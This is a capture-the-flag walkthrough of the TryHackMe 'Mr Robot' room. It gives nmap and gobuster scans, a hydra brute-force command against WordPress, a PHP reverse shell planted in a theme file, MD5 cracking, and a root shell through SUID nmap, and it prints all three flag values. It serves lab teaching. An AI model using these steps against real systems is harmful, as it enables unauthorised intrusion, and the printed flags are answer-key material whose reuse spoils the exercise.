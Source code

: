 ###### Based on the Mr. Robot show, can you root this box?
Room: https://tryhackme.com/room/mrrobot
##

**sudo nmap** -sS -sV -T5 -vv xx.xx.xxx.xxx  
```
PORT    STATE  SERVICE  REASON         VERSION
22/tcp  closed ssh      reset ttl 63
80/tcp  open   http     syn-ack ttl 63 Apache httpd
443/tcp open   ssl/http syn-ack ttl 63 Apache httpd
```

**gobuster dir** http://xx.xx.xxx.xxx --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100 
```
/images               (Status: 301) [Size: 236] [--> http://xx.xx.xxx.xxx/images/]
/blog                 (Status: 301) [Size: 234] [--> http://xx.xx.xxx.xxx/blog/]  
/sitemap              (Status: 200) [Size: 0]                                     
/login                (Status: 302) [Size: 0] [--> http://xx.xx.xxx.xxx/wp-login.php]
/rss                  (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/]       
/video                (Status: 301) [Size: 235] [--> http://xx.xx.xxx.xxx/video/]    
/0                    (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/0/]          
/feed                 (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/]       
/wp-content           (Status: 301) [Size: 240] [--> http://xx.xx.xxx.xxx/wp-content/]
/admin                (Status: 301) [Size: 235] [--> http://xx.xx.xxx.xxx/admin/]     
/atom                 (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/atom/]   
/image                (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/image/]       
/audio                (Status: 301) [Size: 235] [--> http://xx.xx.xxx.xxx/audio/]     
/intro                (Status: 200) [Size: 516314]                                    
/css                  (Status: 301) [Size: 233] [--> http://xx.xx.xxx.xxx/css/]       
/wp-login             (Status: 200) [Size: 2613]                                      
/rss2                 (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/]        
/license              (Status: 200) [Size: 309]                                       
/wp-includes          (Status: 301) [Size: 241] [--> http://xx.xx.xxx.xxx/wp-includes/]
/js                   (Status: 301) [Size: 232] [--> http://xx.xx.xxx.xxx/js/]         
/Image                (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/Image/]        
/rdf                  (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/rdf/]     
/page1                (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/]              
/readme               (Status: 200) [Size: 64]                                         
/robots               (Status: 200) [Size: 41]                        

```

However, most of these are forbidden to access.  

* xx.xx.xxx.xxx/wp-login 
* xx.xx.xxx.xxx/robots.txt

Are the directories that matter to us.  

At **robots.txt** we can find a password list called **fsocity.dic** we can download using wget http://xx.xx.xxx.xxx//fsocity.dic  
**Note**: It's _fsocity_ and NOT _fsociety_.  

**The first flag is at xx.xx.xxx.xxx/key-1-of-3.txt and is 073403c8a58a1f80d943455fb30724b9** **[1]**.  

After some more looking around, I decided that we have enough to start bruteforcing the Wordpress Login since I couldn't find anything else useful enough.  
**hydra** -l Elliot -P fsocity.dic xx.xx.xxx.xxx http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30

The password happens to be **ER28-0652**.

Once we're logged in Elliot's account, we can go and change one of the .php's pages source code with a PHP reverse shell.  
I edited the 404.php page of twentyfifteen's theme and replaced the source code with a PHP reverse shell.  

I got a reverse shell under the **daemon** "user".  
However, it was easy to escalate privileges since in /home/robot was a raw MD5 hash that I could crack.  
> abcdefghijklmnopqrstuvwxyz

After we're under **robot** user, we can read the **flag-2-of-3.txt** file.  

**Second flag is at /home/robot/key-2-of-3.txt and is 822c73956184f694993bede3eb39f959** **[2]**.  

To escalate privileges, I first took a look at what I can execute by running  
**find** / perm +6000 2>/dev/null | grep "/bin/"

I used the **nmap** located at /usr/local/bin/nmap to escalate my privileges to root.
**nmap --interactive**
nmap> **!sh**

```
# whoami
whoami
root
```

**The third and final flag is at /root/key-3-of-3.txt and is 04787ddef27c3dee1ee161b21670b4e4** **[3]**. 
